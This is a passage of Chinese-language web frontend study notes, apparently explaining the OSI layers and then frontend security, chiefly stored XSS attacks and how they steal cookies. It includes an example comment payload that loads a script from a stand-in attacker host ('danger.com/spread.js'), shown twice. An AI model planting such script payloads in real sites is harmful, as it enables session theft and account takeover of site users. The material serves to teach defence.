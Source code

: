 表示层：数据格式化，代码转换，数据加密

会话层：建立/管理/解除会话

传输层：建立/管理端对端的接口，TCP，UDP

网络层：IP 选址，为数据包选择路由，IP，ICMP

数据链路层：传输有地址的帧

物理层：二进制的数据形式在物理媒体上传输数据，例如电缆、光纤、网卡、集线器等等

#### 前端安全

##### 攻击方式

-   XSS 攻击
-   CSRF 攻击
-   点击劫持
-   中间人攻击

##### XSS 攻击

https://www.cnblogs.com/tugenhua0707/p/10909284.html#_labe1

XSS 即`Cross Site Scripting`（跨站脚本攻击），指的是攻击者想尽一切办法将一些可执行的代码注入到网页中，利用这些恶意脚本，攻击者可获取用户的敏感信息如 Cookie、SessionID 等，进而危害数据安全。为了不和层叠样式表 CSS 混淆，故将其缩写为 XSS。

XSS 可以分为：存储型 XSS (也叫持久型 XSS)、反射型 XSS (也叫非持久型)。

###### 存储型

存储型也就是攻击的代码被服务端写入进数据库中，这种攻击危害性很大，因为如果网站访问量很大的话，就会导致大量正常访问页面的用户都受到攻击。

这种攻击常见于带有用户保存数据的网站功能，如论坛发帖、商品评论、用户私信等。具有攻击性的脚本被保存到了服务器并且可以被普通用户完整的从服务的取得并执行，从而获得了在网络上传播的能力。

**存储型 XSS 的攻击步骤如下：**

1. 攻击者将恶意代码提交到目标网站数据库中。
2. 用户打开目标网站时，网站服务器将恶意代码从数据库中取出，然后拼接到 html 中返回给浏览器中。
3. 用户浏览器接收到响应后解析执行，那么其中的恶意代码也会被执行。
4. 那么恶意代码执行后，就能获取到用户数据，比如上面的 cookie 等信息，那么把该 cookie 发送到攻击者网站中，那么攻击者拿到该 cookie 然后会冒充该用户的行为，调用目标网站接口等违法操作。

**例子**

当我们在做评论时，用户输入的内容未经过过滤直接保存到数据库中。

攻击者可以构建一条评论， 包含恶意内容：

```html
质量非常不错！
<script src="danger.com/spread.js"></script>
```

当你的评论列表被用户浏览时， 直接从服务端取出，回填到 HTML 响应中：

```html
<li>
    质量非常不错！
    <script src="danger.com/spread.js"></script>
</li>
```
